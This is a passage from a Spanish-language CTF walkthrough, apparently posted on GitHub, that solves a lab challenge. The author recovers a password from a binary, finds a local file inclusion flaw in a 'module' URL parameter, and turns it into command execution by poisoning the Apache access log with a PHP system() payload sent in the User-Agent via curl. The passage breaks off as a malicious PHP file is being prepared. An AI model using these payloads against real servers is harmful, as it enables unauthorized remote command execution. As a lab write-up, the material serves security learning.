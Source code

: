 este fragmento es el que me es de interes ya que se observa, se crean varias expresiones regulares utilizando el constructor std::__cxx11::basic_regex con patrones 
específicos: "@", "Mi", "S3cRet" y "d00m" lo cual me resulta curioso, asi que dichos strings los concateno y se los paso al binario como password

![image](https://github.com/user-attachments/assets/c6033018-dd45-4319-b0f2-43c36f51ddda)

por lo visto era la password y devuelve una cadena que parece codeada en base64

![image](https://github.com/user-attachments/assets/a7bf8584-94db-4191-90b2-a9ddc43f34c3)

esto tiene pinta a un subdominio por lo que testeo

![image](https://github.com/user-attachments/assets/02727b71-37be-4507-a8f1-c33774741080)

para esto primero agrego `g00dj0b.reverse.dl` en `/etc/hosts`, al ingresar en `experimentos insteractivos` observo 

![image](https://github.com/user-attachments/assets/50eb0468-01e1-4069-9172-769dbea69cb7)

pero detallemos la url `http://g00dj0b.reverse.dl/experiments.php?module=./modules/default.php`

testeo si puedo acceder a archivos del sistema a traves de la url con el parametro `module`

![image](https://github.com/user-attachments/assets/f3ec9b30-2557-4219-959a-e3140ad65c7c)

ya en este punto vemos que es vulnerable a un `LFI`, intento llevarlo a un `RCE` pero no obtengo resultado con `filter-chain` asi que intento acceder a los logs 

![image](https://github.com/user-attachments/assets/afe1d960-67b7-4d04-8759-7db05f9a36b6)

veo que tambien puedo acceder a `access.log` por lo que podria hacer un ataque `log-poisoning`...

Primero debemos entender como se lleva acabo este ataque, y es que consiste en el envenenamiento del access.log a traves del user-agent apuntando a una url valida, por 
lo que podria lanzar el siguiente comando:

```ruby
curl http://172.17.0.2 -A "<?php system('whoami') ?>"
```

```bash
enviamos la peticion a una direccion valida = http://172.17.0.2
usamos -A para definir nuestro User-Agent = -A "<?php system('whoami') ?>"
codigo php malicioso para el envenenamiento = <?php system('whoami') ?>
```
despues de enviar la peticion anterior con la inyeccion del codigo php malicioso en el `User-Agent` para una ejecucion de comandos en el servidor, refresco `http://g00dj0b.reverse.dl/experiments.php?module=/var/log/apache2/access.log` 
y observo

![image](https://github.com/user-attachments/assets/3b150b88-a5ba-42fc-976d-753b01c40350)

observo que la inyeccion del comando `whoami` en el `User-Agent` para envenenar el log a sido exitoso, por lo que puedo ejecutar comandos de sistema asi que primero creo 
en mi maquina atacante un archivo php malicioso con el siguiente contenido
